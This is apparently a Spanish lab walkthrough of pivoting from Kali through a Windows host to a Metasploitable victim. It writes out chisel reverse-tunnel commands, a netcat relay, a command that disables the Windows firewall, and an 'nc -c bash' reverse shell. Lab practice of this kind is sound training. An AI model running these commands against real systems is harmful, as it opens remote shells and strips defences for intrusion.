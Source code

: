 # Preparación del entorno
![[Pasted image 20240708112454.png]]

# Maquina Kali Linux
![[Pasted image 20240708111838.png]]

# Maquina Windows
![[Pasted image 20240708112346.png]]

# Maquina Metasploitable
![[Pasted image 20240708112326.png]]


Una vez tenenos las 3 maquinas podemos ver que desde Windows podemos ver la maquina victima accediendo a unos de sus servicios
![[Pasted image 20240708142251.png]]

Ahora con chisel podemos hacer que nuestra maquina atacante vea el servicio, para ello levantamos un servidor de chisel desde nuestra maquina atacante
```
chisel server --reverse -p 4444
```
![[Pasted image 20240708142502.png]]

Ahora con la maquina de Windows creamos el tunel
```
chisel.exe client 192.168.0.14:4444 R:80:10.10.10.4:80
```
![[Pasted image 20240708142527.png]]

Y ahora desde el puerto 80 de nuestra maquina local podremos ver el puerto 80 de la maquina victima
![[Pasted image 20240708142638.png]]

Ahora generaremos una reverse shell, para ello primero desde la maquina intermediaria creamos el tunel
```
nc.exe -l -p 4444 -e "nc 192.168.0.14 1234"
```
![[Pasted image 20240708142754.png]]

Nos ponemos en escucha desde nuestra maquina por el puerto que hemos indicado
![[Pasted image 20240708142839.png]]

En la maquina WIndows utilizaremos netcat para hacer pivoting, para no tener problemas deshabilitaremos el firewall
```
netsh advfirewall set allprofiles state off
```

Y ahora creamos el tunel para poder  generarnos la reverse shell y la mandamos por el tunel
```
nc -c bash 10.10.10.3 4444
```
![[Pasted image 20240708142920.png]]

Y ya tendriamos la conexion creada
![[Pasted image 20240708143000.png]]